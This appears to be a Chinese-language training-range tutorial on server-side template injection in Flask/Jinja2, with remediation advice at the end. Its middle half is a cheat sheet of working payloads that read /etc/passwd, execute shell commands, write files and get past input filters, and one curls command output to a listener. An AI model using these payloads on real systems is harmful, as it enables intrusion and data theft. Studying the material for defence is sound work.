


什么是SSTI
SSTI为服务端模板注入攻击，它主要是由于框架的不规范使用而导致的。主要为python的一些框架，如 jinja2 mako tornado django flask、PHP框架smarty twig thinkphp、java框架jade velocity spring等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。
漏洞成因
服务端接收了攻击者的恶意输入以后，未经任何处理就将其作为Web应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中(一般可以执行各种表达式)，执行了攻击者插入的可以破坏模板结构的语句(恶意Payload)，因而可能导致了敏感信息泄露、代码执行、GetShell等问题。其影响范围主要取决于模版引擎的复杂性。
SSTI前置知识之模板引擎
主流的WEB服务开发时，主要分为以下两种技术：
前后端不分离：即后端完成路由，用户在浏览器输入一个url，访问的是后端路由（服务端响应），后端接收请求后，再将数据通过模板引擎解析再渲染成视图返回给前端。后端路由，由后端渲染数据，再返回视图给前端，前端只负责展示视图，所有的交互都在后台。
可以简单理解为，访问一个URL后直接得到html页面。
前后端分离：前端使用JavaScript框架，如(jquery，vue，react，angular)，前端项目化；后端去掉所有的视图，只提供api接口，用户在浏览器访问的路由为前端路由（也称为Hash路由，由前端响应），只加载前端视图，数据只通过ajax获取，前端获取数据之后再渲染到视图，前端负责控制路由，展示视图，后端只负责提供api，用户和视图交互，视图上的按钮以及页面数据和后端api交互；
可以简单理解为，访问一个URL后返回的是JSON等数据，而不是一个完全渲染好的html页面。例如本靶场的架构就为前后端分离架构。
所以模板引擎技术主要应用在前后端不分离的项目中，通过提前定义好模板，将数据填充进行渲染出HTML后，返回给浏览器。
通过这种方法，可以做到逻辑与视图分离，更容易、清楚且相对安全地编写前后端不同的逻辑。作为对比，一个很不好的解决方法是通过字符串拼接的方式来组成HTML文件，然后统一输出。
SSTI漏洞测试
SSTI基本上只存在于前后端不分离项目，即接口直接返回渲染好的HTML页面。
存在SSTI漏洞的接口通常存在参数输入点，且参数在HTML页面中有回显点。
也有可能通过二次注入的方式，在不同接口中体现。
可以通过工具对模板引擎进行判断，也可以尝试特定Payload进行判断。
不同模板引擎判定
可以根据下表对模板引擎进行判定：

已知的一些模版和其是否存在问题

SSTI之Flask-JinJa2模板引擎
Jinja2是一种面向Python的现代和设计友好的模板语言，它是以Django的模板为模型的，是Flask框架的一部分。
基础语法
xxxxxxxxxx{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。{% ... %}：装载一个控制语句。{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值
{% set name='xx' %}：在模板中添加变量
# with语句来创建一个内部的作用域，将set语句放在其中，这样创建的变量只在with代码块中才有效{% with gg = 42 %}{{ gg }}{% endwith %}
# if语句{% if 1==1 %}{{ 7*7 }}{%else%}{{ 8*8 }}{% endif %}Python魔术方法
Python魔术方法（Magic Methods）是一系列特殊命名的方法，其名称以双下划头和尾（例如__init__和__new__）的形式出现，这些方法在类的特定事件被触发时自动执行，无需显式调用。这些方法允许程序员自定义类的行为，以创建更具表现力和功能的类实例。
xxxxxxxxxx__class__ 返回示例所属的类__mro__ 返回一个类所继承的基类元组，方法在解析时按照元组的顺序解析。__base__ 返回一个类所继承的基类 # __base__和__mro__都是用来寻找基类的__subclasses__ 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用列表__init__ 类的初始化方法__globals__ 对包含函数全局变量的字典的引用
通过这些魔术方法的组合构造，就可以最大限度的执行到各种危险方法，比如读文件、执行系统命令。关于魔术方法的更多了解可请参考CSDN-Python魔术方法和Python反序列化漏洞部分。
JinJa2模板常见测试Payload
xxxxxxxxxx# 读文件#读取文件类，<type ‘file’> file位置一般为40，直接调用{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} {{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()}}{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()}}{{[].__class__.__base__.__subclasses__()[257]('flag').read()}} (python3)
#直接使用popen命令，python2是非法的，只限于python3os._wrap_close 类里有popen{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()}}
#调用os的popen执行命令#python2、python3通用{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls /flag').read()}}{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}{{''.__class__.__base__.__subclasses__()[185].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag').read()}}{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}}{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}#python3专属{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}
#调用eval函数读取#python2{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} {{"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}{{"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}{{"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')}}#python3{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}} {{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']}}{{"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']}}{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")}}{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")}}{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
#调用 importlib类{{''.__class__.__base__.__subclasses__()[128]["load_module"]("os")["popen"]("ls /").read()}}
#调用linecache函数{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['linecache']['os'].popen('ls /').read()}}{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache']['os'].popen('ls').read()}}{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
#调用communicate()函数{{''.__class__.__base__.__subclasses__()[128]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}
#写文件写文件的话就直接把上面的构造里的read()换成write()即可，下面举例利用file类将数据写入文件。{{"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')}} ----python2的str类型不直接从属于属于基类，所以要两次 .__bases__{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write('123456')}}
#通用 getshell原理就是找到含有 __builtins__ 的类，然后利用。{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}常见绕过方法
过滤[
xxxxxxxxxx{# getitem、pop #}{{ ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read() }}{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read() }}过滤引号
xxxxxxxxxx{# chr函数 #}{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
{# 命令执行 #}{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id过滤下划线
xxxxxxxxxx{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}过滤花括号
xxxxxxxxxx#用{%%}标记{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}更多绕过思路见推荐学习文章部分
修复建议
输入验证和过滤：在将用户输入插入模板之前，对其进行验证和过滤。这包括验证输入的类型、长度和格式，并在可能的情况下拒绝不符合预期的输入。
模板沙盒：将用户输入限制在安全的模板构造中，可以通过白名单机制来实现。这意味着只允许使用预定义的、经过验证的模板语法，阻止恶意代码的执行。
限制模板的访问权限：限制模板引擎的访问权限，使其只能访问必要的文件和资源。避免将敏感文件暴露给模板引擎，以防止恶意代码的执行。